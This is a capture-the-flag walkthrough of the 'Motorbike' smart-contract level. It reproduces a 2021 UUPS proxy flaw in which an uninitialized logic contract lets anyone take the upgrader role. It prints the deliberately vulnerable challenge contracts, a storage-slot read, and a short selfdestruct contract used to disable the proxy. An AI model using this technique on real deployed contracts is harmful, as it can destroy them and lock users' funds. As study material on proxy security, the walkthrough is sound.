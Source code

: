 # Motorbike Walkthrough

## Introduction

This challenge recreates in an simpler mode a [vulnerability found in September 2021 in the UUPS Proxy contract library](https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680). The idea is that we have to find a way to execute the `selfdestruct()` operation in the `implementation` or `logic` contract.

I won't explain here how this Proxy pattern work, you can check the "Further Reading" section for more information. The basic idea to exploit this level is to know that if the logic contract is not initialized, this means that its `initialize()` method was not executed, a malicious attacker can initialize it. This shouldn't be a major issue as the implementation contract's storage doesn't matter. However in the vast majority of cases additional logic is included when the logic contract is initialized, commonly granting some kind of special privileges to the address that initialized it, including control to perform upgrades. In this specific case `initialize` executes the following action: `upgrader = msg.sender;` which will allow the user to execute `upgradeToAndCall`.

Having access to perform upgrades a malicious actor could set the address of the `logic` contract to point to a contract that selfs destruct, rendering the Proxy contract unusable (remember that in the UUPS pattern the upgrade logic resides on the logic contract side). In the real scenario, this malicious contract had to bypass a small rollback check that was not designed for security purposes and hence was [easily bypasseable](https://geeksg.medium.com/my-journey-to-disclosing-a-vulnerability-that-can-lock-up-millions-in-ethereum-dcb5754ad9bc).

To solve this level I performed the following actions:

1. I found the address of the logic contract. To do this I executed:

```
await  web3.eth.getStorageAt(instance,"0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")

-> 0x000000000000000000000000957d470866f5109255936bd66dab27869e35316c
```
This reads the standard slot defined to store the [address of the contract holding the logic](https://eips.ethereum.org/EIPS/eip-1967)

2. I used Remix and deployed both contracts with their respective addresses.
3. I executed `initialize` method on the `Engine` Contract. This set my address as `upgrader`.
4. Being listed as `upgrader` I was able to call `upgradeToAndCall` and set the address of the new logic to the contract shown below:

```
contract BrokenEngine {
    fallback() external payable {
        selfdestruct(address(0));
    }
}
```

5. I submitted the instance and the `fallback()` was executed, rendering the Proxy contract unusable.

## Source Code

Challenge:

```
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "https://raw.githubusercontent.com/OpenZeppelin/openzeppelin-contracts/087d314daf9c7d8205e9eeaade287d853bb3350d/contracts/utils/Address.sol";
import "https://raw.githubusercontent.com/OpenZeppelin/openzeppelin-upgrades/master/packages/core/contracts/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

Solution:

```
contract BrokenEngine {
    fallback() external payable {
        selfdestruct(address(0));
    }
}
```

## Further Reading

- UUPS Proxies: Tutorial - https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786
- Proxies - https://docs.openzeppelin.com/contracts/4.x/api/proxy#ERC1967Upgrade-_upgradeTo-address-
- Writing upgradable contracts, potential unsafe operations - https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable#potentially-unsafe-operations
- My journey to disclosing a vulnerability that can lock up millions in Ethereum - https://geeksg.medium.com/my-journey-to-disclosing-a-vulnerability-that-can-lock-up-millions-in-ethereum-dcb5754ad9bc
- EIP-1967: Standard Proxy Storage Slots - https://eips.ethereum.org/EIPS/eip-1967